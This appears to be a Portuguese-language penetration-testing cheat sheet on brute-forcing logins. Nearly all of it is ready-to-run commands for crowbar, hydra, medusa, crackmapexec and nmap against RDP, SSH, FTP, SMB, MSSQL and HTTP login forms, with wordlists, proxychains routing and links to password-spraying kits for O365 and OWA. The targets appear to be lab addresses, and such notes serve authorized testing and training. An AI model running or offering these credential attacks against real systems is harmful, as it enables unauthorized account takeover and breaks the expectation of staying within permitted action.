 Brute forcing
========================

# crowbar

## RDP
Essa ferramenta que pode realmente executar brute force no RDP das máquinas.
    
    sudo apt install crowbar
    crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1


https://www.hackingarticles.in/4-ways-to-hack-ms-sql-login-password/
# hydra
source:
https://en.kali.tools/?p=220

<https://github.com/frizb/Hydra-Cheatsheet>

Colocar o proxy, mas isso é para HTTP

Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)

No caso de HTTPS, é interessante utilizar o proxychains:

    sudo cat "http    127.0.0.1    8080" >> /etc/proxychains4.conf
    
    proxychains hydra -L users.txt -P /usr/share/wordlists/rockyou.txt domain.com https-post-form "/claims/:LOGIN=^USER^&PASSWORD=^PASS^&submit=Login:An error occurred during authentication"


## RDP

    $ hydra -L users.txt -P pass.txt rdp://[target]

## Mssql
    hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt 192.168.1.128 mssql
    
## ssh
    hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1

## ftp
    hydra -l root -P 500-worst-passwords.txt 10.10.10.10 ftp

## smb
    hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
    #Utilizando o crackmapexec
    crackmapexec smb 10.10.10.130 -u users.txt -p passwords.txt



## http

**OBS: Para alterar o User-Agent deve ser informado o cabeçalho via H:.... Segue exemplo abaixo. Vale ressaltar que para o basic authentication essa feature não é suportada e tem que ser feito ajustes via proxy (no burp, por exemplo)**

    hydra -l root@locahost -P /usr/share/wordlist/rockyou.txt 10.11.1.39 http-post-form "/otrs/index.pl:H=User-Agent\: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv\:88.0) Gecko/20100101 Firefox/88.0':Action=Login&RequestedURL=&Lang=en&TimeOffset=300&User=root@localhost&Password=^PASS^:Login failed!"

### get
    hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt 10.11.1.209 -s 8080 http-get /manager/html

onde -s é a porta
http-get é o método a ser utilizado
/manager/html é o diretório pelo qual estamos tentando nos autenticar
e - C colon separated "login:pass" format, instead of -L/-P options

COM SSL

    proxychains hydra -L usernames.txt -P passwords.txt 10.10.10.7 -s 443 -S http-get /admin/config.php


### post

    hydra -l root@locahost -P /usr/share/wordlist/rockyou.txt 10.11.1.39 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=300&User=root@localhost&Password=^PASS^:Login failed!"


# Medusa
    
    
    
## Mssql    
    medusa -h 192.168.1.128 –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mssql

## ssh
    medusa -u root -P 500-worst-passwords.txt -h 10.10.10.10 -M ssh

## HTTP
    medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

## ftp
    medusa -u test -P 500-worst-passwords.txt -h 10.10.10.10 -M ftp

## smb
    medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt




## Generic

    medusa -h 192.168.1.20 -u admin -P passwords.txt -M [smbnt | ssh | mssql | http]

xHydra
graphical interface


# Supported protocols by tool

Hydra - TELNET, FTP, HTTP, HTTPS, HTTP-PROXY, SMB, SMBNT, MS-SQL, MYSQL, REXEC, irc, RSH, RLOGIN, CVS, SNMP, SMTP, SOCKS5, VNC, POP3, IMAP, NNTP, PCNFS, XMPP, ICQ, SAP/R3, LDAP2, LDAP3, Postgres, Teamspeak, Cisco auth, Cisco enable, AFP, Subversion/SVN, Firebird, LDAP2, Cisco AAA

Medusa -  AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL, NetWare NCP, NNTP, PcAnywhere, POP3, PostgreSQL, REXEC, RLOGIN, RSH, SMBNT, SMTP-AUTH, SMTP-VRFY, SNMP, SSHv2, Subversion (SVN), Telnet, VMware Authentication Daemon (vmauthd), VNC, Generic Wrapper,
Web Form

Ncrack - RDP, SSH, http(s), SMB, pop3(s), VNC, FTP, telnet

# nmap 
nmap -p 1433 –script ms-sql-brute –script-args userdb=/root/Desktop/user.txt,passdb=/root/Desktop/pass.txt 192.168.1.128

|Name|Description|URL|
|-----|-----------|----|
|SprayingToolkit|Scripts to make password spraying attacks against Lync/S4B, OWA & O365 a lot quicker, less painful and more efficient|https://github.com/byt3bl33d3r/SprayingToolkit|
|o365recon|Retrieve information via O365 with a valid cred|https://github.com/nyxgeek/o365recon|